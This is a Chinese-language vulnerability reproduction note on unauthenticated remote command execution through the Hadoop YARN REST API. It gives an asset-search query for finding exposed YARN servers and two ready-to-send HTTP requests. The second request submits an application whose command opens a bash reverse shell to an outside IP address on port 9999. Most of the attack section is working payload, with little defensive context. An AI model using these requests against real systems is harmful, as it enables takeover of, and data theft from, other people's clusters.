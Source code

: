 # Hadoop存在未授权访问导致的RCE

# 一、漏洞描述
Hadoop的核心设计包括分布式文件系统（HDFS）和MapReduce编程模型。HDFS是一个高容错性的分布式文件系统，设计用于在低成本的硬件上运行，提供高吞吐量以访问大规模数据。而MapReduce则是一种处理大规模数据的计算模型，它将应用程序分解成许多小的任务，这些任务可以在分布式集群的任何节点上执行。Hadoop的这些特性使其成为一个适合处理海量数据的平台，广泛应用于大数据存储和处理领域。由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览甚至命令执行等操作，产生极大的危害。

# 二、影响版本
Hadoop

# 三、资产测绘
```plain
app="APACHE-hadoop-YARN"
```

![1730007748480-f12e937d-352a-4a44-8f45-4eadcefc02cd.png](./img/XntizMfXiFnObJzU/1730007748480-f12e937d-352a-4a44-8f45-4eadcefc02cd-735372.png)

# 三、漏洞复现
```plain
POST /ws/v1/cluster/apps/new-application HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 
```

![1730007792679-ad65176c-9062-4cb1-bde3-db16dcc3f638.png](./img/XntizMfXiFnObJzU/1730007792679-ad65176c-9062-4cb1-bde3-db16dcc3f638-482756.png)

反弹shell

```plain
POST /ws/v1/cluster/apps HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 256

{
  "application-id": "application_1234567890123_0001",
  "application-name": "get-shell",
  "am-container-spec": {
    "commands": {
      "command": "/bin/bash -i >& /dev/tcp/81.71.17.84/9999 0>&1"
    }
  },
  "application-type": "YARN"
}
```

![1730007867558-d3e6bed6-3b8b-4c27-9b67-29b40cb1395e.png](./img/XntizMfXiFnObJzU/1730007867558-d3e6bed6-3b8b-4c27-9b67-29b40cb1395e-570056.png)

![1730007901286-aceda32c-bc50-40b7-9e28-fba103dfd98a.png](./img/XntizMfXiFnObJzU/1730007901286-aceda32c-bc50-40b7-9e28-fba103dfd98a-766970.png)



> 更新: 2024-11-27 10:04:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dushc0i493wttgo1>